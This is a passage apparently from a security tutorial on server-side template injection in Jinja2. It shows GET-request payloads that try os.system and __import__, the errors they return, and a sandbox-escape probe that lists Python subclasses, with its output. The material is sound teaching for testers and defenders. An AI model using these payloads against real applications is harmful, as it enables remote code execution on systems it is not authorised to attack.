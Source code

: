 ```python
GET /display_name?name={{os.system('ls')}}
Host: example.com
```

Instead, you’ll probably run into an application error: `jinja2.exceptions.UndefinedError: 'os' is undefined`

This is because the OS module isn’t recognized in the template’s environment. By default, it doesn’t contain dangerous modules like OS . Normally,
you can import Python modules by using the syntax import MODULE, or from MODULE import *, or finally **import**('MODULE'). Let’s try to import the os module:

```python
GET /display_name?name="{{__import__('os').system('ls')}}"
Host: example.com
```

If you submit this payload to the application, you will probably see another error returned: `jinja2.exceptions.UndefinedError: '**import**' is undefined`

Most template engines will block the use of dangerous functionality such as import or make an **allowlist** that allows users to perform only certain operations
within the template. To escape these limitations of Jinja2, you need to take advantage of **Python sandbox-escape techniques**.

## Escaping the Sandbox by Using Python Built-in Functions

One of these techniques involves using Python’s built-in functions. When you’re barred from importing certain useful modules or importing anything at all, you need to investigate functions that are **already imported** by
Python by default. For example, the following GET request contains Python code that lists the Python classes available:

```python
GET /display_name?name="{{[].__class__.__bases__[0].__subclasses__()}}"
Host: example.com
```

When you submit this payload into the template injection endpoint, you should see a list of classes like this:

```python
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 
'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 
'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 
'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_
keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reverse
keyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitem
iterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 
'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 
'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memory
view'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 
'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_
or_method'>, <class 'method'>, <class 'function'>...]
```
